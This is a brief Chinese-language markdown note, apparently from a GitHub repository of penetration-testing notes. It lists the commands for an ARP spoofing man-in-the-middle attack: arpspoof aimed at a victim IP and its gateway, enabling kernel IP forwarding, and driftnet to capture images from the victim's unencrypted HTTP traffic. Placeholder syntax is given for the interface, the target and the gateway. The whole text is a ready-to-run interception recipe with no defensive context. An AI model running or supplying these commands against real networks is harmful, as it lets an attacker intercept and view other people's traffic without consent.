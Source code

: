 ##  asp欺骗(虚拟机开启桥接模式) + driftnet监听网卡（只能看http的）

1. arpspoof -i eth0 -t 192.168.31.96 192.168.31.1
   1. arpspoof -i [kali网卡] -t [被监听IP] [被监听网关]
2. echo 1 >/proc/sys/net/ipv4/ip_forward
3. driftnet -i eth0
   1. driftnet -i [kali网卡]

